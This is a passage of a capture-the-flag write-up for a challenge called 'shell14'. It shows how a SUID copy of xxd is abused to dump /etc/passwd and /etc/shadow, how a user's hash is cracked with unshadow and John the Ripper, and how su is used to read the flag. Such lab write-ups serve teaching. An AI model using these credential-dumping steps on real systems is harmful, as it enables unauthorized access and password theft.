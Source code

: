     -s [+][-]seek  start at <seek> bytes abs. (or +: rel.) infile offset.
    -u          use upper case hex letters.
    -v          show version: "xxd V1.10 27oct98 by Juergen Weigert".
shell14@a1d3b3f599a5:~$ /bin/damn --version
xxd V1.10 27oct98 by Juergen Weigert
shell14@a1d3b3f599a5:~$

{% endhighlight %}

I thought that the program could allow me to read any file on disk given that it is a SUID, so I used it to dump the contents of /etc/passwd and /etc/shadow. While copying them to my local machine, I noticed an unusual user named ‘fyodor’ and remembered the Crime and Punishment author (Fyodor Dostoyevsky):

{% highlight bash %}
/bin/damn /etc/passwd | xxd -r
/bin/damn /etc/shadow | xxd -r

{% endhighlight %}

After that, I used the unshadow program to create a hash that can be cracked with johnTheRipper. After a lot of work, I discovered the password for ‘fyodor’ was just ‘123’. I then used su to switch over to his account and get the flag:

{% highlight bash %}
shell14@d11f9f69163e:~$ su -l fyodor
Password: 
fyodor@d11f9f69163e:~$ ls
flag.txt
fyodor@d11f9f69163e:~$ cat flag.txt 
GLUG{w1nd0w5_5uck5}
fyodor@d11f9f69163e:~$

{% endhighlight %}

**Flag:** GLUG{w1nd0w5_5uck5}

## shell15: Cant touch this {#shell15}

<div>
<center><img src="/images/foobarctf_2020_writeup_part_ii/image-65.png"></center>
</div>
